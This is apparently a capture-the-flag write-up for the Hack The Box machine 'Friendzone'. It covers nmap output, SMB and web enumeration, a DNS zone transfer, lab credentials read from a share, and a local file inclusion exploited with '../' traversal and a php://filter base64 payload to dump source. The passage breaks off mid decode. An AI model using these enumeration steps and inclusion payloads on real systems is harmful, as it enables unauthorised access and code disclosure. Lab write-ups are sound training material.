# [Friendzone](https://app.hackthebox.com/machines/173) - 10.10.10.123

# Scan

```
Nmap scan report for 10.10.10.123
Host is up, received user-set (0.10s latency).
Scanned at 2022-04-10 16:29:23 EDT for 24s

PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 3.0.3
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4/mXYmkhp2syUwYpiTjyUAVgrXhoAJ3eEP/Ch7omJh1jPHn3RQOxqvy9w4M6mTbBezspBS+hu29tO2vZBubheKRKa/POdV5Nk+A+q3BzhYWPQA+A+XTpWs3biNgI/4pPAbNDvvts+1ti+sAv47wYdp7mQysDzzqtpWxjGMW7I1SiaZncoV9L+62i+SmYugwHM0RjPt0HHor32+ZDL0hed9p2ebczZYC54RzpnD0E/qO3EE2ZI4pc7jqf/bZypnJcAFpmHNYBUYzyd7l6fsEEmvJ5EZFatcr0xzFDHRjvGz/44pekQ40ximmRqMfHy1bs2j+e39NmsNSp6kAZmNIsx
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOPI7HKY4YZ5NIzPESPIcP0tdhwt4NRep9aUbBKGmOheJuahFQmIcbGGrc+DZ5hTyGDrvlFzAZJ8coDDUKlHBjo=
|   256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF+FZS11nYcVyJgJiLrTYTIy3ia5QvE3+5898MfMtGQl
53/tcp  open  domain      syn-ack ttl 63 ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    syn-ack ttl 63 Apache httpd 2.4.29
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/organizationalUnitName=CODERED/localityName=AMMAN/emailAddress=haha@friendzone.red
| Issuer: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/organizationalUnitName=CODERED/localityName=AMMAN/emailAddress=haha@friendzone.red
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-05T21:02:30
| Not valid after:  2018-11-04T21:02:30
| MD5:   c144 1868 5e8b 468d fc7d 888b 1123 781c
| SHA-1: 88d2 e8ee 1c2c dbd3 ea55 2e5e cdd4 e94c 4c8b 9233
| -----BEGIN CERTIFICATE-----
| MIID+DCCAuCgAwIBAgIJAPRJYD8hBBg0MA0GCSqGSIb3DQEBCwUAMIGQMQswCQYD
| VQQGEwJKTzEQMA4GA1UECAwHQ09ERVJFRDEOMAwGA1UEBwwFQU1NQU4xEDAOBgNV
| BAoMB0NPREVSRUQxEDAOBgNVBAsMB0NPREVSRUQxFzAVBgNVBAMMDmZyaWVuZHpv
| bmUucmVkMSIwIAYJKoZIhvcNAQkBFhNoYWhhQGZyaWVuZHpvbmUucmVkMB4XDTE4
| MTAwNTIxMDIzMFoXDTE4MTEwNDIxMDIzMFowgZAxCzAJBgNVBAYTAkpPMRAwDgYD
| VQQIDAdDT0RFUkVEMQ4wDAYDVQQHDAVBTU1BTjEQMA4GA1UECgwHQ09ERVJFRDEQ
| MA4GA1UECwwHQ09ERVJFRDEXMBUGA1UEAwwOZnJpZW5kem9uZS5yZWQxIjAgBgkq
| hkiG9w0BCQEWE2hhaGFAZnJpZW5kem9uZS5yZWQwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQCjImsItIRhGNyMyYuyz4LWbiGSDRnzaXnHVAmZn1UeG1B8
| lStNJrR8/ZcASz+jLZ9qHG57k6U9tC53VulFS+8Msb0l38GCdDrUMmM3evwsmwrH
| 9jaB9G0SMGYiwyG1a5Y0EqhM8uEmR3dXtCPHnhnsXVfo3DbhhZ2SoYnyq/jOfBuH
| gBo6kdfXLlf8cjMpOje3dZ8grwWpUDXVUVyucuatyJam5x/w9PstbRelNJm1gVQh
| 7xqd2at/kW4g5IPZSUAufu4BShCJIupdgIq9Fddf26k81RQ11dgZihSfQa0HTm7Q
| ui3/jJDpFUumtCgrzlyaM5ilyZEj3db6WKHHlkCxAgMBAAGjUzBRMB0GA1UdDgQW
| BBSZnWAZH4SGp+K9nyjzV00UTI4zdjAfBgNVHSMEGDAWgBSZnWAZH4SGp+K9nyjz
| V00UTI4zdjAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBV6vjj
| TZlc/bC+cZnlyAQaC7MytVpWPruQ+qlvJ0MMsYx/XXXzcmLj47Iv7EfQStf2TmoZ
| LxRng6lT3yQ6Mco7LnnQqZDyj4LM0SoWe07kesW1GeP9FPQ8EVqHMdsiuTLZryME
| K+/4nUpD5onCleQyjkA+dbBIs+Qj/KDCLRFdkQTX3Nv0PC9j+NYcBfhRMJ6VjPoF
| Kwuz/vON5PLdU7AvVC8/F9zCvZHbazskpy/quSJIWTpjzg7BVMAWMmAJ3KEdxCoG
| X7p52yPCqfYopYnucJpTq603Qdbgd3bq30gYPwF6nbHuh0mq8DUxD9nPEcL8q6XZ
| fv9s+GxKNvsBqDBX
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -55m46s, deviation: 1h43m54s, median: 4m12s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-04-10T20:33:51
|_  start_date: N/A
| nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   FRIENDZONE<00>       Flags: <unique><active>
|   FRIENDZONE<03>       Flags: <unique><active>
|   FRIENDZONE<20>       Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 60332/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 64469/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 62616/udp): CLEAN (Failed to receive data)
|   Check 4 (port 37865/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2022-04-10T23:33:51+03:00
```

# Get Access

Checking searchsploit:

- vsftpd 3.0.3 - only DOS, but 2.3.4 has backdoor... check later if desperate
- OpenSSH 7.6p1 - username enumeration
  - linux/remote/45233.py
  - linux/remote/45210.py
  - linux/remote/45939.py
- BIND 9.11.3 - remote DNS cache poisoning (multiple/remote/6123.py)
  - `❯ searchsploit BIND 9. dns` - had to add "dns" to get relevant results
  - Definitely check for **Zone Transfer**
- Apache httpd 2.4.29 - needs PHP 5.3-5.4 for code execution... not likely
- Samba smbd 3.X - 4.X - LOTS of possibilities listed for "samba 3. linux"
  - RCE 3.5.0 - linux/remote/42060.py
  - RCE 3.5-4.4 - linux/remote/42084.rb
  - RCE 3.5-3.6 - linux/remote/37834.py
- Samba smbd 4.7.6 - nothing... dang, because I think this is the actual version.

Scanning web:

```sh
❯ whatweb -v -a3 http://10.10.10.123 | tee whatweb.log
# Summary   : Apache[2.4.29], Email[info@friendzoneportal.red], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)]

❯ ulimit -n 8192 # prevent file access error during scanning
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u http://10.10.10.123
http://10.10.10.123/index.html           (Status: 200) [Size: 324]
http://10.10.10.123/wordpress            (Status: 200) [Size: 747]
http://10.10.10.123/robots.txt           (Status: 200) [Size: 13]
http://10.10.10.123/server-status        (Status: 403) [Size: 300]
```

Browsing to page:


Robots.txt just says "seriously?!" - lol

So we have a domain name from the email address. "friendzoneportal.red". Added to /etc/hosts, but port 80 still renders the same when visiting using the domain name.

Also looking at SSL cert, has email "haha@friendzone.red". But same site again.

SSL cert mentions "CODERED", which was a [worm](https://en.wikipedia.org/wiki/Code_Red_(computer_worm)) back in 2001. Looking it up, it was exploiting a vuln in Microsoft IIS. Doesn't seem useful. Also mentions Amman, Jordan. Weird.

Wordpress link looks interesting. Browsing to page is just empty index:



Maybe `wpscan` will turn something up?

```sh
❯ wpscan --update --url http://10.10.10.123/ | tee wpscan.log
```

But the scan aborted because the site doesn't seem to be running wordpress.

What about HTTPS? Trying the IP says Not Found:



But trying one of the domains (friendzone.red) we found earlier works!


And just for kicks, trying friendzoneportal.red, and it gives a different result!



Time to scan these with gobuster and whatweb:

```sh
❯ whatweb -v -a3 https://friendzone.red | tee whatweb-friendzone.log
# Summary   : Apache[2.4.29], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)]

❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://friendzone.red -o gobust-friendzone.log
https://friendzone.red/index.html           (Status: 200) [Size: 238]
https://friendzone.red/admin                (Status: 200) [Size: 742]
https://friendzone.red/js                   (Status: 200) [Size: 922]

```

Unfortunately `https://friendzone.red/admin` is just an empty index page again.

Looking at the page source for friendzone.red, we see this:



Now that looks interesting. Visiting the `/js/js` page gives this text:

```
Testing some functions !

I'am trying not to break things !
bkYxd0g4N0RuMTE2NDk2MjY0NTl4TDBYOUFuYTIx
```

And viewing the source of that page reveals this comment:

```html
<!-- dont stare too much , you will be smashed ! , it's all about times and zones ! -->
```

So friendzone has something to do with timezones?

Base64-decoding the garbage string just gives more garbage:

```sh
❯ b64d bkYxd0g4N0RuMTE2NDk2MjY0NTl4TDBYOUFuYTIx
nF1wH87Dn11649626459xL0X9Ana21
```

And trying to continue to base64 decode that just gives an error.

Running whatweb on the `/js/js` page shows an interesting cookie:

```sh
❯ whatweb -v -a3 https://friendzone.red/js/js | tee whatweb-friendzone-js.log
# Summary   : Cookies[zonedman], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)]
```

What's `zonedman`? Googling for it turns up (first result!) this funny history lesson about a play where the main character is the most friend-zoned man ever:

https://siskiyou.sou.edu/2013/02/25/the-cyrano-project-chronicles-the-most-friend-zoned-man-in-history/

I wonder if "Cyrano" will be related to this box.

Trying a scan of the other domain (friendzoneportal.red):

```sh
❯ whatweb -v -a3 https://friendzoneportal.red | tee whatweb-friendzoneportal.log
# Summary   : HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)]

❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://friendzoneportal.red -o gobust-friendzoneportal.log
https://friendzoneportal.red/index.html           (Status: 200) [Size: 66]
```

Nothing else interesting.

Trying the ftp server for anonymous login:

```sh
❯ nc 10.10.10.123 21
220 (vsFTPd 3.0.3)
user anonymous
331 Please specify the password.
pass anon
530 Login incorrect.
```

Fail. Maybe something's on SMB...

```sh
❯ enum4linux -aMld 10.10.10.123 | tee enum4linux.log
[+] Attempting to map shares on 10.10.10.123
//10.10.10.123/print$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.10.123/Files	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.10.123/general	Mapping: OK Listing: OK Writing: N/A
//10.10.10.123/Development	Mapping: OK Listing: OK Writing: N/A
```

So it looks like we can list the files in general and Development. Let's take a look.

```sh
smbmap -H 10.10.10.123
[+] Guest session   	IP: 10.10.10.123:445	Name: friendzoneportal.red
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	Files                                             	NO ACCESS	FriendZone Samba Server Files /etc/Files
	general                                           	READ ONLY	FriendZone Samba Server Files
	Development                                       	READ, WRITE	FriendZone Samba Server Files
	IPC$                                              	NO ACCESS	IPC Service (FriendZone server (Samba, Ubuntu))
```

That's interesting. SMBmap shows that we have read/write permissions on the development share... that might give us a foothold on the `/js/js` path we found earlier. Digging deeper.

```sh
# recursively list directory contents
smbmap -R -H 10.10.10.123
# --- snip ---
	general                                           	READ ONLY	FriendZone Samba Server Files
	.\general\*
	dr--r--r--                0 Wed Jan 16 15:10:51 2019	.
	dr--r--r--                0 Wed Jan 23 16:51:02 2019	..
	fr--r--r--               57 Tue Oct  9 19:52:42 2018	creds.txt # <==== Yeah!
# --- snip ---

# get interactive session
❯ smbclient -N //10.10.10.123/general
smb: \> get creds.txt # download creds file

# see the creds.txt file
❯ cat creds.txt
creds for the admin THING:
admin:WORKWORKHhallelujah@#
```

Not sure what the "admin THING" is... maybe haven't found it yet? Those creds will hopefully come in handy later. Before trying them on SMB, FTP and SSH, want to see if I can do anything with the Development share.

```sh
# make a test php file to see if we can reach it from the web server
❯ echo '<?php phpinfo(); ?>' > pwn/test.php

# log onto development share
❯ smbclient -N //10.10.10.123/Development
smb: \> put ../pwn/test.php test.php
smb: \> ls
  .                                   D        0  Sun Apr 10 18:13:02 2022
  ..                                  D        0  Wed Jan 23 16:51:02 2019
  test.php                            A       20  Sun Apr 10 18:13:03 2022

# now try visiting 'test.php' on all the endpoints we know about:
❯ wget --no-check-certificate https://friendzoneportal.red/test.php # 404
❯ wget --no-check-certificate http://friendzoneportal.red/test.php # 404
❯ wget --no-check-certificate http://friendzoneportal.red/wordpress/test.php # 404
❯ wget --no-check-certificate https://friendzone.red/test.php # 404
❯ wget --no-check-certificate https://friendzone.red/admin/test.php # 404
❯ wget --no-check-certificate https://friendzone.red/js/test.php # 404
❯ wget --no-check-certificate https://friendzone.red/js/js/test.php # 404
```

No luck with the file upload. Trying the creds.

```sh
# first FTP
❯ nc 10.10.10.123 21
220 (vsFTPd 3.0.3)
user admin
331 Please specify the password.
pass WORKWORKHhallelujah@#
530 Login incorrect.

# SSH
❯ ssh admin@10.10.10.123
admin@10.10.10.123's password: WORKWORKHhallelujah@#
Permission denied, please try again.

# SMB
❯ smbclient //10.10.10.123/Files -W WORKGROUP -U admin
Enter WORKGROUP\admin's password: WORKWORKHhallelujah@#
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Well, that sucks. Back to the drawing board.

I forgot about  the DNS zone transfer! Lemme try that...

```sh
❯ dig axfr @10.10.10.123 friendzone.red
; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800

❯ dig axfr @10.10.10.123 friendzoneportal.red
; <<>> DiG 9.18.0-2-Debian <<>> axfr @10.10.10.123 friendzoneportal.red
; (1 server found)
;; global options: +cmd
friendzoneportal.red.	604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.	604800	IN	AAAA	::1
friendzoneportal.red.	604800	IN	NS	localhost.
friendzoneportal.red.	604800	IN	A	127.0.0.1
admin.friendzoneportal.red. 604800 IN	A	127.0.0.1
files.friendzoneportal.red. 604800 IN	A	127.0.0.1
imports.friendzoneportal.red. 604800 IN	A	127.0.0.1
vpn.friendzoneportal.red. 604800 IN	A	127.0.0.1
friendzoneportal.red.	604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
```

Booyah! Lot's of juicy new stuff. A bunch of new domains come up for this host:

- **admin.friendzoneportal.red - janky login portal!**
- files.friendzoneportal.red - not found on https
- imports.friendzoneportal.red - not found on https
- vpn.friendzoneportal.red - not found on https
- **administrator1.friendzone.red - login portal!**
- hr.friendzone.red - Not found on https
- **uploads.friendzone.red - janky site!**

Visiting admin.friendzoneportal.red:



Visiting administrator1.friendzone.red:



Visiting uploads.friendzone.red:



Which to go after first? I guess we can try the creds we have...

Trying admin.friendzoneportal.red with the creds logs us in, but the page says it isn't developed yet:



Trying administrator1.friendzone.red, the creds work and we see this:



Following the suggestion:



Now copying the suggested parameters and putting them in the url query string:

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp
```


So it looks like we can render any image that is in that directory. Viewing source, see the images are stored under `/images` folder. Browsing to it shows index-of page with another image:



And viewing b.jpg:


Thinking back to the other pages, there was an `uploads.friendzone.red` page that mentioned we could upload images! I wonder if those images go to the same directory?

Tried uploading a dummy image file (just downloaded the `b.jpg` link and upload with different name), and after I upload, it gives me a success message and redirects to `upload.php`:

```sh
Uploaded successfully !
1649635161
```

That string has the same format as the timestamp we saw on the admin page. Going to [https://www.epochconverter.com/](https://www.epochconverter.com/), and plugging it in, it gives me my local time. Checking the timestamp from the admin page (1649634661), it comes out an hour ahead. This seems to be tied to the hints earlier about the timezones, but I'm not sure how yet.

Looking at the `/images` in the admin page, I don't see the image I uploaded (nothing changed). Dang. What else can we do? Command injection? SQL injection? Watch the uploads or url submissions in Burp? Run gobuster on the new websites?

We'll start with scans first, since those take the longest.

```sh
# check with whatweb, but nothing interesting
❯ whatweb -v -a3 https://administrator1.friendzone.red
❯ whatweb -v -a3 https://uploads.friendzone.red

# first look at uploads because I want to find that file I uploaded
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://uploads.friendzone.red -o gobust-friendzone-uploads.log
https://administrator1.friendzone.red/images               (Status: 200) [Size: 1139]
https://administrator1.friendzone.red/login.php            (Status: 200) [Size: 7]
https://administrator1.friendzone.red/index.html           (Status: 200) [Size: 2873]
https://administrator1.friendzone.red/dashboard.php        (Status: 200) [Size: 101]
https://administrator1.friendzone.red/timestamp.php        (Status: 200) [Size: 36]
https://administrator1.friendzone.red/server-status        (Status: 403) [Size: 318]

# also peeking at the other domain just in case
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://admin.friendzoneportal.red -o gobust-friendzone-admin.log
https://admin.friendzoneportal.red/index.html           (Status: 200) [Size: 379]
https://admin.friendzoneportal.red/login.php            (Status: 200) [Size: 7]
https://admin.friendzoneportal.red/server-status        (Status: 403) [Size: 315]
```

Files seems promising. But visiting shows blank page? Trying `/files/myimage.png` fails, and so does `/files/test.php`.

Visiting `upload.php` gives this text:

```
WHAT ARE YOU TRYING TO DO HOOOOOOMAN !
```

LOL.

Noticing the timestamp.php page, which matches the pagename query parameter for dashboard.php. So it looks like we get to specify the php page to run with that parameter. This is known as Local File Inclusion (LFI). I wonder if we can prove that? Trying 'dashboard' because if the page references itself, it should create an endless loop. Sure enough, we see this:


and it keeps going on as long as we keep the connection open. Now how do we exploit that? We can upload files with the image upload page. Maybe we can find where those files go? But I don't know their naming convention, nor whether it's possible to upload a file with the .php extension, which we need to use this vuln. It's also not clear yet if we can do directory traversal with the query parameter. If not, this exploit is probably dead in the water.

We can try to test directory traversal by navigating to `upload.php` from the uploads domain. Just guessing, but I'd wager we could go up a level, then into an `uploads` folder to reach `upload.php`. So the query param should look like this:

```
pagename=../uploads/upload
```

When we browsed to upload.php before, we got the "what are you doing hooooman" message, so if we see that at the bottom of our page where the timestamp was, we know we can do directory traversal to get code execution through LFI.

And visiting the url (`https://administrator1.friendzone.red/dashboard.php?image_id=x&pagename=../uploads/upload`), we see the desired string at the bottom!



Ok, not sure what to do from here... tried appending "%00" to see if I could set my own file extension, but that failed. Tried guessing for other php page locations, but nothing useful.

PHP has filters. Maybe we can use the base64 filter to get useful info from the php source? So now let's change the pagename query string like so:

```
pagename=php://filter/convert.base64-encode/resource=dashboard
```

And visiting the page gives us base64 of the source code! Decoding:

```sh
❯ b64d 'PD9waHAKCi8vZWNobyAiPGNlbnRlcj48aDI+U21hcnQgcGhvdG8gc2NyaXB0IGZvciBmcmllbmR6b25lIGNvcnAgITwvaDI+PC9jZW50ZXI+IjsKLy9lY2hvICI8Y2VudGVyPjxoMz4qIE5vdGUgOiB3ZSBhcmUgZGVhbGluZyB3aXRoIGEgYmVnaW5uZXIgcGhwIGRldmVsb3BlciBhbmQgdGhlIGFwcGxpY2F0aW9uIGlzIG5vdCB0ZXN0ZWQgeWV0ICE8L2gzPjwvY2VudGVyPiI7CmVjaG8gIjx0aXRsZT5GcmllbmRab25lIEFkbWluICE8L3RpdGxlPiI7CiRhdXRoID0gJF9DT09LSUVbIkZyaWVuZFpvbmVBdXRoIl07CgppZiAoJGF1dGggPT09ICJlNzc0OWQwZjRiNGRhNWQwM2U2ZTkxOTZmZDFkMThmMSIpewogZWNobyAiPGJyPjxicj48YnI+IjsKCmVjaG8gIjxjZW50ZXI+PGgyPlNtYXJ0IHBob3RvIHNjcmlwdCBmb3IgZnJpZW5kem9uZSBjb3JwICE8L2gyPjwvY2VudGVyPiI7CmVjaG8gIjxjZW50ZXI+PGgzPiogTm90ZSA6IHdlIGFyZSBkZWFsaW5nIHdpdGggYSBiZWdpbm5lciBwaHAgZGV2ZWxvcGVyIGFuZCB0aGUgYXBwbGljYXRpb24gaXMgbm90IHRlc3RlZCB5ZXQgITwvaDM+PC9jZW50ZXI+IjsKCmlmKCFpc3NldCgkX0dFVFsiaW1hZ2VfaWQiXSkpewogIGVjaG8gIjxicj48YnI+IjsKICBlY2hvICI8Y2VudGVyPjxwPmltYWdlX25hbWUgcGFyYW0gaXMgbWlzc2VkICE8L3A+PC9jZW50ZXI+IjsKICBlY2hvICI8Y2VudGVyPjxwPnBsZWFzZSBlbnRlciBpdCB0byBzaG93IHRoZSBpbWFn